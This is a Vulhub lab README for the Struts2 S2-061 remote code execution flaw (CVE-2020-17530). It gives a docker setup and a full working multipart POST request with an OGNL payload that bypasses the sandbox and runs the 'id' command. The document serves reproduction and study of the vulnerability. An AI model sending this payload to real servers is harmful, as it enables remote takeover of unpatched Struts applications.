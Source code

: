 # Struts2 S2-061 Remote Code Execution Vulnerablity (CVE-2020-17530)

[中文版本(Chinese version)](README.zh-cn.md)

In the versions prior to Struts 2.5.25, when evaluated on raw user input in tag attributes, may lead to remote code execution.

This vulnerability is the bypass of the OGNL sandbox, which enhance after S2-059.

References:

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## Setup

Start a Struts 2.5.25 server:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see a simple page. It is just a copy application of the [S2-059](https://github.com/vulhub/vulhub/tree/master/struts2/s2-059), except for the different Struts versions.

## Exploit

Send the following request to execute the `id` command:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

It can be seen that the result of the `id` command will be displayed on the page:

![](1.png)
